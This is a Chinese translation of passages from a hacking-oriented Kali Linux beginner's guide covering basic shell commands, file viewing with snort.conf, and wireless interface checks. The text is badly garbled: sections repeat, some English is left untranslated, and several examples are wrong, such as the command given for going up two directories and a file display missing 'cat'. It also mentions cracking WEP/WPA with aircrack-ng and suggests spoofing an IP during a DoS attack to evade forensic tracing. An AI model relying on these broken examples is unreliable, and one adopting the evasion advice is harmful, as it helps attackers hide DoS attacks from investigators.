

图 1-3：终端

此终端打开了环境，即 shell，它允许你在底层系统上运行命令。虽然 Linux 有许多不同的 shell 环境，但最流行的是 `bash`，它也是 Kali 的默认 shell。

### Linux 文件系统

Linux 文件系统结构与 Windows 有些不同。Linux 在文件系统的底部没有物理驱动器（如 C 盘），而是使用逻辑文件系统。文件系统的顶端是 `/`，它通常被称为文件系统的根，就像一棵倒立的树（见图 1-4）。



图 1-4：Linux 文件系统

请记住，这与 root 用户不同。这些术语最初看起来很困惑，但一旦你习惯了 Linux，就会变得更容易区分。

在开始之前，了解这一点也很重要：在执行常规任务时你不应该以 root 身份登录，因为当你以 root 身份登录时，任何攻击你系统的人（是的，黑客有时也会被攻击）都会立即获得 root 权限，从而“拥有”你的系统。在启动普通应用程序、浏览网页、运行 `Wireshark` 等工具时，请以普通用户身份登录。

#### Linux 基础命令

首先，让我们来看一些可以帮助你在 Linux 中快速上手的基础命令。

##### 使用 `pwd` 确定你的位置

与 Windows 或 macOS 等图形化用户界面（GUI）环境中的工作不同，Linux 命令行并不总是能显示你当前所在的目录。要导航到一个新目录，你通常需要知道自己现在在哪里。当前工作目录命令 `pwd` 会返回你在目录结构中的位置。

在终端中输入 `pwd` 来查看你所处的位置：

```
kali >pwd
/root
```


在这种情况下，Linux 返回了 `/root`，告诉我处于 root 用户的目录下。而且由于你启动 Linux 时是以 root 身份登录的，你也应该处于 root 用户的目录下，它是文件系统结构顶部（`/`）的下方一级。

如果你在其他目录，`pwd` 将返回该目录名称。

## 使用 whoami 检查你的登录身份

在 Linux 中，那个“全能的”超级管理员或系统管理员名称为 `root`，它拥有添加用户、更改密码、更改权限等所需的所有系统权限。显然，你不希望任何人都有进行此类更改的能力；你希望对方是一个可以信任并且对操作系统有足够知识的人。作为黑客，你通常需要拥有所有这些权限来运行所需的程序和命令，除非你拥有 root 权限，因此你会想要以 root 身份登录。

如果你忘记了自己是以 root 还是其他用户登录的，可以使用 `whoami` 命令查看你以哪个用户身份登录：

```
kali >whoami
root
```

如果我是以另一个用户（例如我的个人账户）登录的，`whoami` 将返回我的用户名，如下所示：

```
kali >whoami
OTW
```

## 导航 Linux 文件系统

从终端导航文件系统是一项基本的 Linux 技能。为了完成任何工作，你都需要能够移动以找到位于其他目录的应用程序、文件和目录。在基于 GUI 的系统中，你可以看到目录，但当你使用命令行界面时，结构完全是基于文本的，导航文件系统意味着使用某些命令。

### 使用 cd 切换目录

要从终端切换目录，请使用切换目录命令 `cd`。例如，这是切换到用于存储配置文件的 `/etc` 目录的方法：

```
kali >cd /etc
root@kali:/etc#
```

提示符变为 `root@kali:/etc`，表示我们位于 `etc` 目录中。我们可以通过输入 `pwd` 来确认这一点：

```
root@kali:/etc# pwd
etc
```

若要在文件结构中向上移动一级（朝文件结构的根目录，或 `/`），我们使用 `cd` 后跟两个点（`..`），如下所示：

```
root@kali:/etc# cd ..
root@kali:# pwd
/
root@kali:# /
```

这使我们从 `/etc` 移动到根目录，但你可以根据需要向上移动任意级。只需使用与你想移动的层数相等的双点对数量即可：

- 使用 `..` 向上移动一级。
- 使用 `... ..` 向上移动两级。
- 使用 `. . . .` 向上移动三级，依此类推。

所以，例如，要向上移动两级，输入 `cd` 后跟两组中间有空格的双点：

```
kali >cd ..
```

你也可以通过输入 `cd /` 从文件结构中的任何地方直接移动到根目录，其中 `/` 代表文件系统的根。

### 使用 ls 列出目录内容

要查看目录的内容（文件和子目录），我们可以使用 `ls`（list）命令。这与 Windows 中的 `dir` 命令非常相似。

```
kali >ls
bin      initrd.img  media   run     var
boot    initrd.img.old  sbin    vmlinux
dev      lib           opt     srv     vmlinux.old
etc     lib64           proc    tmp
home    lost+found  root    usr
```

此命令列出了该目录中包含的文件和目录。你也可以在任何特定目录上使用此命令，而不仅仅是当前所在的目录，只需在命令后列出目录名称；例如，`ls /etc` 显示 `/etc` 目录中的内容。

要获取有关文件和目录的更多信息（例如权限、所有者、大小以及最后修改时间），你可以在 `ls` 之后添加 `-l` 选项（`l` 代表 long）。这通常被称为长列表。在这里尝试一下：

```
kali >ls -l
total 84
drw-r--r-- 1 root  root 4096 Dec 5 11:15 bin
drw-r--r-- 2 root  root 4096 Dec 5 11:15 boot
drw-r--r-- 3 root  root 4096 Dec 9 13:10 dev
drw-r--r-- 18 root  root 4096 Dec 9 13:10 etc
drw-r--r-- 1 root  root 4096 Dec 5 11:15 var
```

*(注：此处示例原文输出内容存在错乱，已按翻译要求保留格式)*

此命令列出了目录中包含的文件和目录。你也可以在任何特定目录上使用此命令...（此处省略）...有些 Linux 文件是隐藏的，简单的 `ls` 无法显示它们。

### 获取帮助

几乎每个命令、应用程序或工具都有一个帮助文件。例如，如果我需要 `aircrack-ng` 的帮助，我只需输入：

```
kali aircrack-ng --help
```

注意这里的双杠。Linux 的习惯是在选项前使用双杠（`--`），在单字母选项前使用单杠。例如，如果我需要端口扫描工具 `nmap` 的帮助，我会输入：

```
kali nmap -h
```

遗憾的是，虽然许多应用程序支持这三种（`--help`, `-h` 和 `?`），但不保证你使用的选项有效。

### 使用 man 参考手册页

除了帮助选项外，许多命令和应用程序都有手册（man）页面，提供更多信息，如描述和语法。你可以通过在命令前输入 `man` 来查看手册。例如，查看 `aircrack-ng` 的手册，你会输入：

```
kali >man aircrack-ng

NAME
aircrack-ng - a 802.11 WEP / WPA-PSK key cracker

SYNOIS
aircrack-ng [options] <cap /ivs file(s)>

DESCRIPTION
aircrack-ng is an 802.11 WEP and WPA-PSK cracking program. It can recover the WEP key once enough encrypted packets have been captured with airdump-ng. This part of the aircrack determines the WEP key using two fundamental methods. The first method is via the PTW approach (Pyshkin, Tews, Weinmann). The main advantage of the PTW approach is that very few data packets are required to crack the WEP key. The second method is the FMS/Korek method. The FMS/Korek method incorporates various statistical attacks to discover the WEP key and uses these in combination with brute force. Additionally, the program offers a dictionary method for determining the WEP key. For cracking WPA/WPA pre-shared keys, a wordlist (file or stdin) and an airolib-ng has been used.
```

以下命令可以帮助你从终端定位内容。

### 使用 locate 搜索

最易于使用的命令是 `locate`。后面跟着一个你想查找的关键词，该命令将遍历整个文件系统并定位该词的所有出现处。

要查找 `aircrack-ng`，例如输入以下内容：

```
kali >locate aircrack-ng
/usr/bin/aircrack-ng
/usr/share/applications/kali-aircrack-ng.desktop
/usr/share/desktop-directories/05-1-01-aircrack-ng.directory
--snip--
/var/lib/dpkg/info/aircrack-ng.md5sums
```

然而，`locate` 命令并不完美。`locate` 的结果可能会让人目不暇，给你过多的信息。此外，`locate` 使用的数据库每天更新一次；如果你刚刚创建了一个文件（几分钟或几小时前），它可能直到第二天才会出现在此列表中。了解这些基础命令的缺点是值得的，这样你就可以决定何时使用每种命令最为合适。

### 使用 whereis 查找二进制文件

如果你正在寻找一个二进制文件，可以使用 `whereis` 命令来定位它。该命令不仅返回二进制文件的位置，还会返回它的源代码和手动帮助页（man page），如果它们存在的话。这里有一个示例：


```
kali >whereis aircrack-ng
aircrack-ng :/usr/bin/aircrack-ng /usr/share/man/man1/aircrack-ng.1.gz
```

在这种情况下，`whereis`只返回了`aircrack-ng`的二进制文件和帮助页，而不是每一个`aircrack-ng`单词出现的地方。这要高效得多且清晰得多，你觉得呢？

### 使用 which 查找 PATH 变量中的二进制文件

`which`命令更加具体：它返回 Linux 中`PATH`变量中二进制文件的位置。我们将在第 7 章详细地查看`PATH`变量，但目前只需要知道`PATH`包含了操作系统查找你在命令行执行的命令时所搜索的目录。例如，当我在命令行输入`aircrack-ng`时，操作系统会查看`PATH`变量，以确定应该在哪些目录中查找`aircrack-ng`：

```
kali >which aircrack-ng
/usr/bin/aircrack-ng
```

在这里，`which`能够在`PATH`变量列出的目录中找到单个二进制文件。至少，这些目录通常包括`/usr/bin`，但也可能包括`/usr/sbin`以及其他几个目录。

### 使用 find 执行更强大的搜索

`find`命令是所有搜索工具中最强大、最灵活的。它能够从任何指定的目录开始搜索，并查找许多不同的参数，当然不仅包括文件名，还包括创建或修改日期、所有者、组、权限和大小。

这里是`find`的基本语法：

```
find directory options
```

所以，如果我想从根目录开始搜索一个名为`apache2`（开源 Web 服务器）的文件，我将输入以下内容：

```
kali >find / -type f -name apache2
```

首先，我说明要开始搜索的目录，在本例中为`/`。然后，我指定要搜索的文件类型，在本例中，`f`表示普通文件。最后，我给出一个正在搜索的文件名，在本例中为`apache2`。

我的这次搜索结果显示在这里：

```
kali >find / -type f -name apache2
/usr/lib/apache2/mpm-itk/apache2
/usr/lib/apache2/mpm-event/apache2
/usr/lib/apache2/mpm-worker/apache2
/usr/lib/apache2/mpm-prefork/apache2
/etc/cron.daily/apache2
/etc/logrotate.d/apache2
/etc/init.d/apache2
/etc/default/apache2
```

`find`命令从文件系统的顶部（`/`）开始，遍历每一个目录查找文件名中包含`apache2`的项，然后列出找到的所有实例。

正如你想象的那样，在每个目录的搜索可能会缓慢。加快速度的一种方法是只在你预期能找到所需文件的目录中查找。在这种情况下，我们正在寻找一个配置文件，所以我们可以从`/etc`目录开始搜索，Linux 只会搜索到它的子目录。让我们试一下：

```
kali >find /etc -type f -name apache2
/etc/init.d/apache2
/etc/logrotate.d/apache2
/etc/cron.daily/apache2
```

这次更快的搜索只在`/etc`目录及其子目录中找到了`apache2`的出现情况。同样重要的是，与其他一些搜索命令不同，`find`仅显示精确名称匹配。如果文件`apache2`有扩展名（例如`apache2.conf`），搜索将找不到匹配项。我们可以通过使用通配符来弥补这一局限，通配符允许我们匹配多个字符。通配符有几种不同的形式：`*`、`?`和`[]`

让我们在`/etc`目录中查找所有以`apache2`开头并具有任何扩展的文件。为此，我们可以使用以下内容编写`find`命令：

```
kali >find /etc -type f -name apache2.*
/etc/apache2/apache2.conf
```

当我们运行此命令时，我们发现`/etc`目录中有一个符合`apache2.*`模式的文件。当我们使用点后跟`*`通配符时，终端会查找文件名后的任何内容。

#### 通配符快速概览

假设我们正在执行此操作。`?`通配符用于表示单个字符。`[]`通配符用于匹配方括号内部的内容。最常用的通配符是星号（`*`），它可以匹配任意长度的字符。

### 使用 grep 进行过滤

在运行命令行时，你经常想要搜索某个特定的关键字。为此，可以使用`grep`命令作为过滤器。

`grep`命令通常在输出从一个命令管道到另一个命令时使用。我们在第 2 章介绍管道，但目前只需知道 Linux（以及 Windows）允许我们将一个命令的输出作为另一个命令的输入。我们使用`|`命令来实现（它通常在 ENTER 键上方）。

`ps`命令用于显示进程信息。我们将在第 6 章详细介绍，但在此示例中，假设我想查看系统中运行的所有进程。在这种情况下，可以使用`aux`选项来指定要显示的进程信息，如下：

```
kali >ps aux
```

这为我提供了服务的列表——但如果我只想找一个进程查看它是否正在运行呢？

我可以通过将`ps`的输出管道到`grep`并搜索关键字来实现。例如，为了找出`apache2`服务是否正在运行，我将输入：

```
kali >ps aux | grep apache2
root 4851 0.2 0.7 37548 7668 ? Ss 10:14 0:00 /usr/sbin/apache2 -k
...
```

这条命令告诉 Linux 显示我所有的服务，并将输出传递给`grep`，`grep`会在输出中查找关键字`apache2`。

### 修改文件和目录

一旦你找到了文件和目录，你就会想要对它们执行某些操作。在本节中，我们将查看如何创建文件和目录、复制文件、重命名文件以及删除文件和目录。

#### 创建文件

在 Linux 中创建文件有很多方法，但目前我们只看两种简单的方法。第一种是`cat`，它是`concatenate`（连接）的缩写，意味着将部分组合在一起（不是指你养的猫）。`cat`命令通常用于显示文件内容，但也可以用于创建小文件。对于

创建较大的文件时，最好在`vim`、`emacs`、`leafpad`、`gedit`和`kate`等文本编辑器中输入代码，然后将其保存为文件。

##### 使用 cat 进行拼接

`cat`命令后跟一个文件名将显示该文件的内容，但要创建一个文件，我们在`cat`命令后跟一个重定向符号（用`>`符号表示），并加上想要创建的文件名。这是一个示例：

```
kali >cat > hackingskills
Hacking is the most valuable skill set of the 21st century!
```

当你按下回车键时，Linux 将进入交互模式并等待你开始为文件输入内容。这可能会让你感到困惑，因为提示符消失了，但如果你开始输入，你输入的任何内容将写入文件（在本例中为`hackingskills`）。在这里，我输入了`Hacking is the most valuable skill set of the 21st century!`。要退出并返回提示符，我按下`CTRL-D`。然后，当我想查看`hackingskills`文件的内容时，我输入了以下命令：

```
kali >cat hackingskills
Hacking is the most valuable skill set of the 21st century!
```

如果你不使用重定向符号，Linux 将回显你的文件内容。

要向文件添加或追加内容，你可以使用双重定向（`>>`）配合`cat`命令，后跟你想添加到文件末尾的任何内容。这是一个示例：

```
kali >cat >> hackingskills
Everyone should learn hacking
```

Linux 再次进入交互模式，等待追加到文件的内容。当我输入`Everyone should learn hacking`并按下`CTRL-D`后，我返回了提示符。现在，当我用`cat`显示该文件的内容时，我看到文件已经追加了`Everyone should learn hacking`，如下：

```
kali >hackingskills
Hacking is the most valuable skill set of the 21st century! Everyone
should
learn hacking
```

如果我想用新信息覆盖文件，只需简单地再次使用带有单重定向的`cat`命令，如下：

```
kali >cat > hackingskills
Everyone in IT security without hacking skills is in the dark
kali >cat > hackingskills
Everyone in IT security without hacking skills is in the dark
```


如你在此看到的，Linux 进入了交互模式，我输入了新文本然后退出回到提示符。当我再次使用 `cat` 查看文件内容时，我发现我之前的文字已被最新的文本覆盖了。

## 使用 touch 创建文件

创建文件的第二个命令是 `touch`。该命令最初开发是为了让用户能够简单地通过触碰一个文件来更改其某些细节，例如创建或修改日期。然而，如果文件不存在，该命令默认会创建该文件。

让我们用 `touch` 创建 `newfile`：

```
kali >touch newfile
```

现在，当我使用 `ls -l` 查看目录的详细列表时，我看到创建了一个新文件 `newfile`。注意，它的大小为 0，因为 `newfile` 中没有内容。

## 创建目录

Linux 中创建目录的命令是 `mkdir`，它是 make directory（创建目录）的缩写。要创建一个名为 `newdirectory` 的目录，输入以下命令：

```
kali >mkdir newdirectory
```

要进入这个新创建的目录，只需输入：

```
kali >cd newdirectory
```

## 复制文件

要复制文件，我们使用 `cp` 命令。这会在新位置创建一个文件的副本，并将旧文件留在原处。

在这里，我们将用 `touch` 在根目录下创建 `oldfile`，并将其复制到 `/root/newdirectory`，在此过程中对其重命名，同时将原始 `oldfile` 留在原处：

```
kali >touch oldfile
kali >cp oldfile /root/newdirectory/newfile
```

重命名文件是可选的，只需在目录路径末尾添加你想要的新名称即可。如果你在复制文件时不重命名，文件将默认保留原始名称。

当我们进入 `newdirectory` 时，我们看到有一个名为 `newfile` 的 `oldfile` 完整副本：

```
kali >cd newdirectory
kali >ls
```

```
newfile oldfile
```

## 重命名文件

遗憾的是，Linux 没有专门用于重命名文件的命令（像 Windows 和其他某些操作系统那样），但它使用了 `mv`（移动）命令。

`mv` 命令可将文件或目录移动到新位置，或者简单地给现有文件起新名字。要重命名 `newfile2`，你需要输入：

```
kali >mv newfile newfile2
kali >ls
oldfile newfile
```

现在当你列出（`ls`）该目录时，你会看到 `newfile2` 而不是 `newfile`，因为它已经被重命名了。你也可以对目录执行相同的操作。

## 删除文件

要删除文件，你可以直接使用 `rm` 命令，如下：

```
kali >rm newfile2
```

如果你现在对目录进行详细列出，可以确认文件已删除。

## 删除目录

删除目录的命令与删除文件的 `rm` 命令类似，只是后面加上了 `rmdir`（用于目录），如下：

```
kali >rmdir directory
rmdir:failed to remove 'newdirectory': Directory not empty
```

需要注意的是，`rmdir` 不删除非空目录，而是会给你一个“目录不为空”的警告信息，正如本示例所示。在删除目录之前，必须先删除其中的所有内容。这是为了防止意外删除无意删除的对象。

如果你确实想一次删除目录及其内容，可以在 `rm` 后使用 `-r` 选项，如下：

```
kali >rm -r newirectory
```

只是提个建议：在使用阶段在使用 `rm -r` 选项时要小心，因为非常容易误删掉重要的文件和目录。

### 现在去玩吧！

现在你已经掌握了在文件系统中周围导航的基本技能，可以在继续学习之前先玩玩你的 Linux 系统。熟悉使用终端的最佳方法就是现在就尝试你新学的技能。在随后的章节中，我们将更深入地探索你的游乐场。

### 查看文件

如第 1 所示，最基础的文本显示命令可能是 `cat`，但它也有其局限性。使用 `cat` 显示位于 `/etc/snort` 下的 Snort 配置文件（`snort.conf`）（参见列表 2-1）。

```
kali >cat /etc/snort/snort.conf
```

列表 2-1：在终端窗口中显示 `snort.conf`

你的屏幕现在应该显示整个 `snort.conf` 文件，它会持续流输出直到文件结束，如下所示这并不是查看和处理此文件的最方便或实用的方法。

```
# include $S0_RULE_PATH/exploit.rules
# include $S0_RULE_PATH/exploit.rules
# include $S0_RULE_PATH/exploit.rules
# include $S0_RULE_PATH/exploit.rules
# include $S0_RULE_PATH/exploit.rules

--snip--
```

```
# event thresholding or suppressions commands...
kali >
```

在接下来的章节中，我将向你展示 `head` 和 `tail` 命令，这是两种仅显示文件部分内容的方法，以便方便地查看关键内容。

### 获取头部 (Head)

如果你只想查看文件的开头，可以使用 `head` 命令。默认情况下，该命令显示文件的前 10 行。例如，以下命令显示了 `snort.conf` 的前 10 行：

```
kali >cat /etc/snort/snort.conf
#-
```

```
# VRT Rules Packages Snort.conf
#
# For more information visit us at:

--snip--
#Snort bugs:bugs@snort.org
```

如果你想查看比默认 10 行更多或少的内容，请在调用 `head` 之后、文件名之前使用横杠 `-` 切换输入你需要的行数。例如，如果你想查看文件的前 20 行，将输入列表 2-2 顶部所示的命令。

```
kali >head -20 /etc/snort/snort.conf

------------------------------------------------------
#VRT Rule Packages Snort.conf
#
#For more information visit us at:
#.
#
#Options: --enable-gre --enable-mpls --enable-targetbased
--enable-ppm --enable-profiling enable-zlib --enable-act
live-response --enable-normalizer --enable-reload --enable-react
```

列表 2-2：在终端窗口中显示 `snort.conf` 的前 20 行

你应该只在终端窗口中看到了 `snort.conf` 的前 20 行。

### 获取尾部 (Tail)

`tail` 命令与 `head` 命令类似，但它用于查看文件的最后几行。让我们在 `snort.conf` 上使用它：

```
kali >tail /etc/snort/snort.conf
#include $SO_RULE_PATH/smtp.rules
#include $SO_RULE_PATH/specific-threats.rules
#include $SO_RULE_PATH/web-activex.rules
#include $SO_RULE_PATH/web-client.rules
#include $SO_RULE_PATH/web-iis.rules
#include $SO_RULE_PATH/web-miscp.rules
```

### 事件阈值限制和抑制命令。参见 threshold.conf

注意，此命令显示了 `tail` 的最后一些 `include` 行，但不是全部，因为与 `head` 类似，`tail` 默认显示 10 行。你可以通过获取 `snort.conf` 的最后 20 行来显示更多行。与 `head` 命令一样，你可以在命令和文件名之间输入横杠 `-` 然后是行数来告诉 `tail` 显示多少行，如列表 2-3 所示。

```
kali >tail -20 /etc/snort/snort.conf
#include $SO_RULE_PATH/chat.rules
#include $SO_RULE_PATH/chat.rules
#include $SO_RULE_PATH/chat.rules
--snip----
#Event thresholding or suppression commands. See threshold.conf
```

列表 2-3：在终端窗口中显示 `snort.conf` 的最后几行

我们可以在一个屏幕上查看规则文件中几乎所有的 `include` 行。


### 行排序

有时——特别是对于很长的文件——我们可能希望文件显示行号。由于 `snort.conf` 有超过 600 行，行号在这里会很有用。这使得引用更改以及返回文件中的相同位置变得更容易。

要显示带有行号的文件，我们使用 `nl` 命令。只需输入列表 2-4 所示的命令即可。

```
kali >nl /etc/snort/snort.conf
612 ############################################
613 #dynamic library rules
614 #include $SO_RULE_PATH/bad-traffic.rules
615 #include $SO_RULE_PATH/chat.rules
--snip----
630 #include $SO_RULE_PATH/web-iis.rules
631 #include $SO_RULE_PATH/web-misc.rules
```

列表 2-4：在终端输出中显示行号

现在每行都有了一个数字，变得更简单了。

### 使用 grep 过滤文本

`grep` 命令可能是最常用的文本处理工具。它让你过滤文件内容，例如，如果你只想查看包含特定单词的行。你可以这样使用它：

```
kali >cat /etc/snort/snort.conf | grep "word"
```

如果你只想替换 `mysql` 术的第一次出现处，可以省略末尾的 `g` 命令。

```
kali >sed s/mysql/MySQL snort.conf > snort2.conf
```

你也可以使用 `sed` 命令来查找并替换单词的任何特定出现处，而不是所有出现处或仅第一次出现。例如，如果你只想替换单词 `mysql` 的第二次出现处，只需将出现次数（在此例中为 `2`）放在命令的末尾即可：

```
kali >sed s/mysql/MySQL/2 snort.conf > snort2.conf
```

此命令仅影响 `mysql` 的第二次出现。

## 使用 more 和 less 查看文件

虽然 `cat` 是一个显示文件和创建小文件的实用工具，但在显示大文件时，它确实有其局限性。当你用 `cat` 查看 `snort.conf` 时，文件会一页一页地滚动直到末结束，如果你想从中获取任何信息，这并不实用。

对于处理较大的文件，我们还有另外两个查看工具：`more` 和 `less`。

## 使用 more 控制显示

`more` 命令一次显示文件的一页，并让你使用 `ENTER` 键向下翻页。它是手册页（man pages）所使用的工具，所以让我们先来看看它。如列表 2-7 所示，使用 `more` 命令打开 `snort.conf`。

```
kali >more /etc/snort/snort.conf
--snip-
# Snort build options:
# Options: --enable-gre --enable-pls --enable-targetbased
--enable-ppm --enable-perfprofiling enable-zlib --enable-active
--response --enable-normalizer --enable-reload --enable-react
--enable-flexresp3
#
--More--(2%)
```

列表 2-7：使用 more 一次一页显示终端输出

注意，`more` 仅显示第一页，并在它停止时，它会在左下角告诉我们显示了文件的多少百分比（在本例中为 2%）。要查看额外的行或页，请按 `ENTER`。。要退出 `more`，请输入 `q`。

### 使用 less 显示和过滤

`less` 命令与 `more` 非常相似，但具有额外的功能——因此，Linux 中有一句常用的俏话，“Less is more”。使用 `less`，你不仅可以随意浏览文件，还可以对术语进行过滤。如列表 2-8 所示，使用 `less` 打开 `snort.conf`。

```
kali >less /etc/snort/snort.conf
--snip-
# Snort build options:
# Options: --enable-gre --enable-mpl --enable-targetbased
--enable-ppm --enable-perprofiling enable-zlib --enable-active
--response --enable-normalizer --enable-reload --enable-react
/etc/snort/snort.conf
```

列表 2-8：使用 less 同时一次显示终端输出并过滤结果

注意屏幕左下角，`less` 高亮显示了文件的文件的路径。如果你按下正斜杠（`/`）键，`less` 将允许你在文件中搜索搜索术语。例如，当你第一次设置 Snort 时，你需要确定想将入侵警报发送到哪里。要找到配置文件的该部分，你可以简单地搜索 `output`，例如：

```
# Snort build options:
# Options: --enable-gre --enable-mpl --enable-targetbase
--enable-ppm --enable-profiling enable-zlib --enable-active
--response --enable-normalizer --enable-reload --enable-react
/output
```

这将立即带你到 `output` 的第一次出现处并将其高亮。然后你可以通过输入 `n` 查找 `output` 的下一次出现处。

## 第 6 步：配置 Snort 模块

############################

### 推荐用于大多数安装

# unified: filename snort.conf

# unified: filename snort.conf

# unified: filename snort.conf

# Options: --enable-ppm --enable-profiling enable-zlib --enable-active

--response --enable-normalizer --enable-reload --enable-react

--enable-flexresp3

# unified: filename snort.conf

#

:-2-more unified:: snort.conf

#

Listing 2-7: Using more to display terminal output one page at a time

Notice that more displays only the first page and when it stops, and it tells us in the lower-left corner how much of the file is shown (2 percent in this case). To see additional lines or pages, press ENTER. To exit more, enter q (for quit).

Notice that more displays only the first page and when it stops, and it tells us in the lower-left corner how much of the file is shown (2 percent in this case). To see additional lines or pages, press ENTER. To exit more, enter q (for quit).


```
kali >sed s/mysql/MySQL/2 snort.conf > snort2.conf
```

此命令仅影响 `mysql` 的第二次出现处。

## 使用 more 和 less 查看文件

虽然 `cat` 是一个显示文件和创建小文件的实用工具，但在显示大文件时，它确实有其局限性。当你用 `cat` 查看 `snort.conf` 时，文件会一页一页地滚动直到结束，如果你想从中获取任何信息，这并不实用。

对于处理较大的文件，我们还有另外两个查看工具：`more` 和 `less`。

### 使用 more 控制显示

`more` 命令一次显示文件的一页，并让你使用 `ENTER` 键向下翻页。它是手册页 `man` pages 所使用的工具，所以让我们先来看看它。如列表 2-7 所示，使用 `more` 命令打开 `snort.conf`。

```
kali >more /etc/snort/snort.conf
--snip-
# Snort build options:
# Options: --enable-gre --enable-pls --enable-targetbased
--enable-ppm --enable-perfprofiling enable-zlib --enable-active
--response --enable-normalizer --enable-reload --enable-react
--enable-flexresp3
#
--More--(2%)
```

列表 2-7：使用 `more` 一次一页显示终端输出

注意，`more` 仅显示第一页，并在它停止时，它会在左下角告诉我们显示了文件的多少百分比（在本例中为 2%）。要查看额外的行或页，请按 `ENTER`。要退出 `more`，请输入 `q`（代表 quit）。

### 使用 less 显示和过滤

`less` 命令与 `more` 非常相似，但具有额外的功能——因此，Linux 中有一句常用的俏话，“Less is more”。使用 `less`，你不仅可以随意浏览文件，还可以对术语进行过滤。如列表 2-8 所示，使用 `less` 打开 `snort.conf`。

```
kali >less /etc/snort/snort.conf
--snip-
# Snort build options:
# Options: --enable-gre --enable-mpl --enable-targetbased
--enable-ppm --enable-perprofiling enable-zlib --enable-active
--response --enable-normalizer --enable-reload --enable-react
/etc/snort/snort.conf
```

列表 2-8：使用 `less` 同时一次显示终端输出并过滤结果

注意屏幕左下角，`less` 高亮显示了文件的文件的路径。如果你按下正斜杠 `/` 键，`less` 将允许你在文件中搜索术语。例如，当你第一次设置 Snort 时，你需要确定想将入侵警报发送到哪里。要找到配置文件的文件的该部分，你可以简单地搜索 `output`，例如：

```
# Snort build options:
# Options: --enable-gre --enable-mpl --enable-targetbase
--enable-ppm --enable-profiling enable-zlib --enable-active
--response --enable-normalizer --enable-reload --enable-react
/output
```

这将立即带你到 `output` 的第一次出现处并将其高亮。然后你可以通过输入 `n`（代表 next）查找 `output` 的下一次出现处。

## 第 6 步：配置 Snort 模块

### 推荐用于大多数安装

`unified: filename snort.conf`

`unified: filename snort.conf`

`unified: filename snort.conf`

`Options: --enable-ppm --enable-profiling enable-zlib --enable-active`

`--response --enable-normalizer --enable-reload --enable-react`

`--enable-flexresp3`

`unified: filename snort.conf`

`:-2-more unified:: snort.conf`

Listing 2-7: Using more to display terminal output one page at a time

第三个连接是接口 `wlan0`。只有当你拥有无线接口或适配器时（就像我这里一样），它才会出现。注意，它还会显示该设备的 MAC 地址 `HWaddr`。

来自 `ifconfig` 的这些信息允许你连接并操作本地局域网 `LAN` 设置，这是黑客攻击的一项基本技能。

## 使用 iwconfig 检查无线网络设备

如果你有一个无线适配器，可以使用 `iwconfig` 命令来收集无线攻击所需的关键信息，例如适配器的 IP 地址、MAC 地址、其所处模式等。当你使用像 `aircrack-ng` 这样的攻击工具时，从该命令中获取的信息尤为重要。

让我们在终端中使用 `iwconfig` 查看一些设备（请参见列表 3-2）。

```
kali >iwconfig
wlan0 IEEE 802.11bg ESSID:off/any
Mode:Managed Access Point: Not Associated Tx-Power=20 dBm
--snip--
lo no wireless extensions

eth0 no wireless extensions
```

列表 3-2：使用 `iwconfig` 获取无线适配器信息

这里的输出告诉我们，只有 `wlan0` 具有无线扩展，这正是我们预期的。`lo` 和 `eth0` 均没有无线扩展。

对于 `wlan0`，我们了解到我们的设备支持的 802.11 IEEE 无线标准：b 和 g，这是两种早期的无线通信标准。大多数无线设备还包括 n 以及 ac（n 是最新标准）。

我们还从 `iwconfig` 中获了无线扩展的模式（在这种情况下为 `Mode:Managed`，与之对比的是监听模式 `monitor` 或混杂模式 `promiscuous` 模式）。在破解无线密码时，我们需要混杂模式。

接下来，我们可以看到无线适配器未连接到接入点 `AP`（Not Associated），且其功率为 20 dBm，这代表信号强度。我们将在第 14 章花费更多时间研究这些信息。

### 更改你的网络信息

能够更改 IP 地址和其他网络信息是一项实用的技能，因为它可以帮助你在访问其他网络时，在这些网络中表现为一个受信设备。例如，在拒绝服务 `DoS` 攻击中，你可以伪造你的 IP，使攻击看起来来自另一个源，从而帮助你在取证分析期间规避 IP 捕获。这在 Linux 中是一项简单的任务，通过 `ifconfig` 命令即可完成

### 更改你的 IP 地址

